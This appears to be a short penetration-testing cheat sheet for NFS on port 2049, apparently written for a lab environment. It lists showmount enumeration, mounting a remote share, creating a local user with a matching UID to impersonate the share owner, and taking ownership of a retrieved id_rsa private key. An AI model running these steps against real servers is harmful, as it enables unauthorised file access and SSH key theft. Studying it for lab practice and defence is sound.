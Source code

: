 NFS Port 2049

#### Enumeration

````
showmount $ip
showmount -e $ip
````

##### Mounting

````
sudo mount -o [options] -t nfs ip_address:share directory_to_mount
mkdir temp 
mount -t nfs -o vers=3 10.11.1.72:/home temp -o nolock
````

##### new user with new permissions

````
sudo groupadd -g 1014 <group name>
sudo groupadd -g 1014 1014
sudo useradd -u 1014 -g 1014 <user>
sudo useradd -u 1014 -g 1014 test
sudo passwd <user>
sudo passwd test
````

##### Changing permissions

The user cannot be logged in or active
````
sudo usermod -aG 1014 root
````

##### Changing owners

````
-rw------- 1 root root 3381 Sep 24  2020 id_rsa
````
````
sudo chown kali id_rsa
````
````
-rw------- 1 kali root 3381 Sep 24  2020 id_rsa
````
